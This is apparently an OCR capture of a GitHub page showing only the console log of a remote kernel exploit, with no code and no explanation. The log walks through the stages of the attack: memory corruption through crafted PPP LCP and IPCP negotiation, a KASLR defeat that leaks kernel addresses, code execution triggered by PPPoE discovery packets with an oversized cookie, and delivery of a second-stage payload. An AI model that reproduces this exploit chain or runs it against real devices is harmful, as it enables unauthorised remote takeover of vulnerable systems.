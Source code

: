 ```text
[+] STAGE 1: Memory corruption
[+] Pinning to CPU 0...done
[*] Sending malicious LCP configure request...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...
[+] Scanning for corrupted object...found fe80::0fdf:4141:4141:4141

[+] STAGE 2: KASLR defeat
[*] Defeating KASLR...
[+] pppoe_softc_list: 0xffffffff884de578
[+] kaslr_offset: 0x3ffc000

[+] STAGE 3: Remote code execution
[*] Sending LCP terminate request...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634beba00
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] Source MAC: 97:df:ea:86:ff:ff
[+] AC cookie length: 0x511
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Triggering code execution...
[*] Waiting for stage1 to resume...
[*] Sending PADT...
[*] Waiting for PADI...
[+] pppoe_softc: 0xffffabd634be9200
[+] Target MAC: xx:xx:xx:xx:xx:xx
[+] AC cookie length: 0x0
[*] Sending PADO...
[*] Waiting for PADR...
[*] Sending PADS...
[*] Waiting for LCP configure request...
[*] Sending LCP configure ACK...
[*] Sending LCP configure request...
[*] Waiting for LCP configure ACK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure NAK...
[*] Waiting for IPCP configure request...
[*] Sending IPCP configure ACK...
[*] Sending IPCP configure request...
[*] Waiting for IPCP configure ACK...

[+] STAGE 4: Arbitrary payload execution
[*] Sending stage2 payload...
[+] Done!
```
